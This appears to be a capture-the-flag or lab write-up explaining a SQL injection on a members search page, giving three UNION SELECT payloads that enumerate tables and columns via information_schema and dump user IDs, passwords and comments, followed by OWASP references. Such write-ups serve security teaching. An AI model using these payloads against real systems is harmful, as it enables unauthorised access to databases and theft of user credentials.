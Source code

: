 # SQL injection (members page)

To exploit, go to the `http://addr/index.php?page=member` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List id, countersign and comment from users table:
```
1 union select 1, concat(user_id, char(124), countersign, char(124), Commentaire) from Member_Sql_Injection.users
```

## References
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure
- [SQL Injection Attack — OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLi Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLi payload examples — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [Advanced SQLi](https://www.bases-hacking.org/injections-sql-avancees.html)
